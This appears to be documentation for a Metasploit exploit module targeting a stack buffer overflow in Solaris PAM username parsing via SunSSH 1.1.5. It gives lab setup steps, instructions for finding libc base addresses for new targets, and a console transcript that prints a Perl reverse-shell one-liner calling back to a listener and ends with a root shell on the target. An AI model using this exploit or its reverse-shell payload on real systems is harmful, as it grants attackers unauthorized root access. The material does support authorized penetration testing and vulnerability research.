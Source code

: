## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. You will need an Oracle account.

SunSSH should already be installed and running when you start the
system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set target 1
target => 1
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(solaris/ssh/pam_username_bof) > set rport 2222
rport => 2222
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.123.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 127.0.0.1:2222        - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 127.0.0.1:2222        - Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable. SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox is a compatible target.
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox
[*] Yeeting cmd/unix/reverse_perl at 127.0.0.1:2222
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:57474) at 2020-12-07 01:31:34 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS vagrant-solaris10.dev 5.10 Generic_147148-26 i86pc i386 i86pc
```
